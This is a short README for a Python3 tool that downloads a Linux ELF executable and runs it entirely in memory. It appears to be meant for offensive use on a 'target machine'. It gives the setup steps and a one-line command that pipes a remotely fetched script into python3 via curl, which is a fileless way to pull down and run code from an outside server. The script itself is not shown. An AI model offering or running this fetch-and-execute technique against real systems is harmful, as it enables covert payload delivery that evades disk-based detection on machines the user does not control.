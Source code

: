 # elf-in-memory-exec

### Introduction

Python3 script that downloads and executes an elf (linux executable format) completely in memory. All you need is python3 on your host to run it.

### Usage

**First**, modify the script on your machine, set `url` to the url where your elf executable would be fetched from. Optionally, add any arguments you want to pass to the program to `args` list. Leave it empty for no arguments.

Example:

```
url = "http://your-server/your_elf" # To download elf from
args = ["arg1","arg2",...] # List of arguments to pass to program
```

**Second**, on target machine, as an example, run:

```
curl http://your-server/elf_in_memory.py | python3
```
